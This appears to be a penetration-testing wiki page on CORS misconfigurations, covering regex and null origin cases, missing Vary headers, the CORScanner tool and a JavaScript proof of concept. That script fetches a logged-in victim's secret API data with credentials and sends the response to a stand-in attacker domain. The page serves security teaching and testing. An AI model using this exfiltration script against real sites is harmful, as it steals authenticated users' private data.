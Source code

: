 # 🛠️ CORS (Cross-Origin Resource Sharing)

## Theory

Sometimes browsers need to load resources from another origin other than their own. The Same-Origin Policy mechanism (SOP) restricts access to resources on other origins.&#x20;

{% hint style="info" %}
The same-origin is defined for two URLs that have the same protocol, port (if specified), and host.
{% endhint %}

To bypass this limitation, the JSON-P technique (in JavaScript) was introduced. To retrieve information from another origin, it uses the `<script>` tag (which is not blocked by the SOP). Unfortunately, this technique has some issues and lacks controls in some cases. Here we introduce CORS.

Cross-Origin Resource Sharing (CORS) is a header-based mechanism. It improves security and flexibility for cross-domain resource sharing. CORS is relatively new and therefore, not very well-known. As result, misconfigurations are common and bring security concerns. The main vulnerabilities lie in the overly permissive access to credentials from non-controlled domains.

### Misconfigurations

The exploitation will depend on the misconfiguration. The next image shows a path that can be followed:

![](../../../.gitbook/assets/CORS.png)

#### Case 1

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: regex`

The origins are verified through a regex match.\
The misconfiguration types can be better understood with this table:

![https://github.com/chenjj/CORScanner](../../../.gitbook/assets/misconfiguration\_cors.PNG)

{% hint style="warning" %}
The configuration below is [impossible](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#requests\_with\_credentials):

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: *`
{% endhint %}

#### Case 2

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: null`

According to [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), browsers might send the value `null` in the `Origin` header in some unusual situations:

* Cross-site redirects.
* Requests from serialized data.
* Request using the `file:` protocol.
* Sandboxed cross-origin requests.

The value `null` when the server sends credentials is the worst-case scenario. It means any origin can request credentials without limitation.

#### Case 3

Misconfiguration:

* `Access-Control-Allow-Credentials: false`
* `Access-Control-Allow-Origin` is dynamically generated
* `Vary: Origin` is absent

In this case, it's possible to conduct a client-side poisoning.

Check [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)'s explanation for more information.&#x20;

## Practice

During a penetration test, exploiting CORS misconfigurations is difficult. The attacks may rely on manipulating a victim or even finding configuration issues on other domains (which can be out of scope).

However, it's possible to get a Proof-of-Concept using JavaScript by registring a domain (to abuse a CORS misconfiguration).

### Tool

The tool [CORScanner ](https://github.com/chenjj/CORScanner)is useful in finding misconfigurations. It relies on the table shown in the misconfiguration case 1.

```bash
python cors_scan.py -u $URL
```

{% hint style="info" %}
It is advised to use the verbose option `-v` to see the tests.
{% endhint %}

{% hint style="warning" %}
It is possible to customize the third parties origins in the file `origins.json`.
{% endhint %}

### Proof-of-Concept (PoC)

To steal sensitive information, the victim has to be logged in the vulnerable website. From there, if the victim is redirected to the attacker's website (containing the script below), the sensitive information will be retrieved by the attacker.

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://vulnerable.domain/api/secret-data',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.domain/log?response='+this.responseText; 
};
```

## References

{% embed url="https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties" %}

{% embed url="https://www.jianjunchen.com/publication/an-empirical-study-of-cors/" %}
